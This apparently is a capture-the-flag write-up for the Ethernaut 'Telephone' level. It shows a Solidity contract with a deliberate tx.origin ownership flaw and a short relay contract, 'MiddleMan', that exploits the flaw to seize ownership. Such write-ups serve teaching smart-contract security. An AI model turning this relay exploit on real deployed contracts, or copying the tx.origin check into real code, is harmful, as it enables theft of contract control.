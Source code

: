 # Level 4 - Telephone

### Objective

The objective of this level is as follows:

1. Claim ownership of the contract

### Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

### Solution

As we can see in the contract above, the `changeOwner` function can be used to claim ownership of the contract if the transaction origin address is not the same as the message sender address. So, we must call `changeOwner` from a separate smart contract `MiddleMan` (seen below) so that `tx-origin` is our address and `msg.sender` is `MiddleMan`'s address.

```
pragma solidity ^0.6.0;

interface Tele {
  function changeOwner(address _owner) external;
}

contract MiddleMan {
  function changeOwner(address _addr) public {
    Tele(_addr).changeOwner(msg.sender);
  }
}
```

We deploy `MiddleMan` and enter the `Telephone` contract address as a parameter.

Done!
